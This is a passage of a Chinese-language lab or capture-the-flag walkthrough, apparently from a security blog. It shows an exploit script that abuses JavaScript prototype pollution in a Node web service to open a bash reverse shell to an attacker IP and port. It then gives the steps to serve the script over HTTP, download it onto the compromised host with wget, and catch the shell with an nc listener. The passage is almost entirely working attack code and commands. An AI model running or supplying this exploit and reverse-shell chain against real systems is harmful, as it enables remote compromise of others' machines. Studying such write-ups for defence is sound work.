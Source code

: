 根据ip修改EXP

```
vi exp.py
```

![image-20211104101833596](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104101833596.png)

>import requests
>
>cmd = 'bash -c "bash -i &> /dev/tcp/10.0.2.4/4444 0>&1"'
>
>#pollute
>
>requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
>    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
>
>#execute command
>
>requests.get('http://127.0.0.1:8080')

已将exp写在本地，需将该exp.py上传至目标端

kali：

```
python3 -m http.server 80
```

![image-20211104102630662](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104102630662.png)

shell：

```
cd /tmp   #易向里写文件
```

```
pwd
```

```
ls
```

```
wget http://10.0.2.4/exp.py
```

```
ls
```

![image-20211104102839677](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104102839677.png)

exp.py上传成功

kali:

```
nc -nvlp 4444
```
